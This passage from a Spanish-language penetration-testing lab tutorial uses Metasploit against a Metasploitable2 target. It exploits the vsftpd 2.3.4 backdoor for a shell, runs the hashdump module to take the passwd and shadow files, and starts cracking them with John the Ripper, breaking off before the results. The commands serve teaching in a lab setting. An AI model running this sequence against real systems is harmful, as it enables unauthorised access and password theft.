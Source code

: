 Como podemos ver, existe un exploit de ejecución de comandos de puerta trasera para nuestra versión de vsftp. Volvamos a MSF, busquemos el exploit, carguemoslo, veamos su información y ejecútelo:

```bash
grep vsftp search exploits
```

![grep vsftp](https://github.com/4GeeksAcademy/cybersecurity-syllabus/blob/main/assets/grep-vsftp.png?raw=true)

```bash
use exploit/unix/ftp/vsftp_234_backdoor

show info
```

![show info](https://github.com/4GeeksAcademy/cybersecurity-syllabus/blob/main/assets/show-info.png?raw=true)

> run

![run3](https://github.com/4GeeksAcademy/cybersecurity-syllabus/blob/main/assets/run3.png?raw=true)

Y ahora tenemos un shell en la sesión 2. Podemos enviarlo al fondo (^Z), enumerar las sesiones abiertas (sesiones -l) e interactuar (sesiones 2).

![Sesiones](https://github.com/4GeeksAcademy/cybersecurity-syllabus/blob/main/assets/sesiones.png?raw=true)

Intentaremos extraer usuarios y contraseñas del objetivo utilizando el módulo hashdump. Ponga la sesión en segundo plano y seleccione el módulo:

![Hashdump](https://github.com/4GeeksAcademy/cybersecurity-syllabus/blob/main/assets/hashdump.png?raw=true)

```bash
use post/linux/gather/hashdump

show options

set SESSION 2

show info

run
```

Ahora usa el comando `loot` para ver los resultados hasta el momento:

> loot

![loot](https://github.com/4GeeksAcademy/cybersecurity-syllabus/blob/main/assets/loot.png?raw=true)

Pudimos obtener los archivos passwd, shadow y unshadow.

Abra otra terminal para que John el Destripador los abra:

> $ john .msf4/loot/20190402110303_metasploitable2_192.168.231.109_linux.hashes_935091.txt

Para ver los resultados utilice la opción --show:
